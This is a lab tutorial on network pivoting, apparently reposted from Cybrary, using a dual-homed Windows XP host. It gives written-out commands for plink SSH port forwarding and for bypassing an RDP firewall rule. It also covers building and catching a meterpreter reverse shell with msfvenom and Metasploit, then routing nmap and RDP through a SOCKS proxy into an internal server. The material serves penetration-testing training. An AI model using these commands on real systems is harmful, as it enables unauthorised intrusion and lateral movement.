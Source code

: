 ##### From https://www.cybrary.it/0p3n/pivot-network-port-forwardingredirection-hands-look/
#### Description:
This tutorial is about “moving” through a network (from machine to machine). We use a compromised host as our pivot to move through the network.  This tutorial has a lack of screenshots. You can create the screenshots yourself as you follow this tutorial 😉

#### Prerequisites:
You need (at least) three machines for this tutorial. I suggest using VirtualBox or VMware machines.

The Attacking Box (Kali Linux)
* IP: 192.168.1.16
* Netmask: 255.255.255.0
* Gateway: 192.168.1.1

The pivot host (Windows XP)
Dual-Homed – Configure 2 Network Cards in VirtualBox!
* FIRST IP: 192.168.1.30
* Netmask: 255.255.255.0
* SECOND IP: 10.0.0.2
* Netmask: 255.0.0.0

Web server (IIS, Apache – Windows or Linux, whatever u like) -> I use a Windows 2012 server
* IP: 10.0.0.10
* Netmask: 255.0.0.0

There is no need to use a gateway!


#### Problem:
We want to reach the web server from the attacking box. But how can we do that? Both machines are in different subnets. 

Try to surf to the web server from the Kali-Box: http://10.0.0.10

This does not work!

(If you do not understand the problem at this point I highly suggest you leave this tutorial and get comfortable with network topics such as private network ranges and subnetting)

#### Solution:
We use the dual-homed machine to pivot to the web server!

#### Scenario 1 (Remote Port Forwarding):
We connect to the Windows XP machine using “rdesktop” on the Kali Box. We don´t attack the pivot here. We have the credentials.
	
  1. Connect to the Windows XP machine from your Kali Box: rdesktop 192.168.1.30
  2. Download “plink.exe” from the Kali box to the Windows XP machine
(plink.exe can be found on Kali -> “/usr/share/windows-binaries/plink.exe “-> Copy “plink.exe” to you web server root and start apache on Kali.Now you can download “plink.exe” on the Windows XP machine)
  3. Open a command prompt on the Windows XP machine and navigate to the place where you have saved “plink.exe”
  4. Start SSH Daemon on Kali-Box. /etc/init.d/ssh start
  5. Run the following command on the Windows XP machine:

plink 192.168.1.16 -P 22 -C -R 127.0.0.1:4444:10.0.0.10:80
(Login with your SSH credentials on Kali)

#### Try to reach the web server from your Kali Box the following way:
http://127.0.0.1:4444 -> Voila: It works! You can see the web server from 10.0.0.10!

OK, but what does the command do? Let’s split the command to see what is going on:

plink 192.168.1.16 -P 22 -> Tunnel the traffic using SSH on Kali-Box 192.168.1.16
-C -R -> -C is compression. -R tells plink to do a “Remote Port Forwarding”
127.0.0.1:4444:10.0.0.10:80 -> Local Host:Local Port:Remote Client:Remote Port (Local from the pivots perspective!)

#### Read the command backward:
“We bind the remote clients port 80 (10.0.0.10:80) to our local port (127.0.0.1:4444) and tunnel the traffic to 192.168.1.16 using SSH (192.168.1.16 -P 22)


#### Scenario 2 (Local Port Forwarding):
We want to connect to our Windows XP machine using Remote Desktop Protocol (RDP). The Port is 3389.
There is an Inbound Firewall rule that blocks connections to this port. Let´s pretend that we are not able to change the firewall settings.
(Create a specific rule on the XP machine or just imagine that RDP is not reachable on Port 3389)
The problem is: We still want RDP connection!
We simply redirect the local port 3389 ,let´s say, to port 3390.
On the Windows XP machine:  plink 192.168.1.16 -P 22 -C -L 192.168.1.30:3390:192.168.1.30:3389
(-L -> Local Port Forwarding)
Read the command backward to understand what is going on:
On the Kali Box:
rdesktop 192.168.1.30:3390 -> Voila, there is our Remote Desktop Session!
Sweet!


#### Scenario 3 (Dynamic Port Forwarding):
You are familiar with the concepts of local and remote port forwarding from Scenario 1 and Scenario 2.
Now let’s do some Hacking!
We want to Nmap the server on 10.0.0.10 from our attacking Kali-Box. Let´s attack the pivot machine to get a meterpreter shell from it.
(Generate a standalone executable meterpreter reverse shell (.exe file) on your Kali box, execute it on the pivot and catch it on Kali using Metasploit)
  1. Generate a Stand-Alone meterpreter executable:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.16 LPORT=443 -f exe -o meterpreter.exe

  2. Copy meterpreter.exe to Kalis webroot
  
  3. Download meterpreter.exe to the XP machine
  
  4. Setup the listener on the Kali Box:
    * msfconsole
    * use exploit/multi/handler
    * set PAYLOAD windows/meterpreter/reverse_tcp
    * set LHOST 192.168.1.16
    * set LPORT 443
    * exploit
  
  5. Double-Click on meterpreter.exe and run it on the XP Machine
  
  6. Now you have the meterpreter connection from the XP Machine on your Kali Box!
  
  7. Type “ifconfig” and see that this host is a dual homed machine.
  
  8. Type “background” to background the session
  
  9. Now we have to add a route to our metasploit session 1:
route add 10.0.0.0 255.0.0.0 1
(1 is the session number in metasploit)
  
  10. Verify that the route was added successfully:
route print
  
  11. Now configure socks proxy in metasploit and start it:
* use auxiliary/server/socks4a
* set SRVHOST 127.0.0.1
* run
(You can use default settings for SRVHOST 0.0.0.0 as well. The port is important. Default is Port 1080)
  
  12. Configure proxy chains on the Kali Box:
* vi /etc/proxychains.conf
Edit the ProxyList at the bottom of the file:
* socks4   127.0.0.1   1080
The configuration has to be the same as in metasploit
  
  13. Run you nmap scan using proxychains:
Some Tips:
You should use the options -Pn (assume that host is up) and -sT (TCP connect scan) with nmap through proxychains! Using other scan types, TCP Syn scan for example, will not work!
proxychains nmap -Pn -sT -p445,3389 10.0.0.10
(These two ports should be opened. If you see “denied” in the nmap result something went wrong with the proxy configuration or the route was added in the meterpreter session. 
Background the meterpreter session and then add the route in metasploit for the meterpreter Session! See Steps 9-11)
  
  14. Get Remote Desktop
proxychains rdesktop 10.0.0.10
  
  15. Surf to 10.0.0.10
proxychains firefox 10.0.0.10
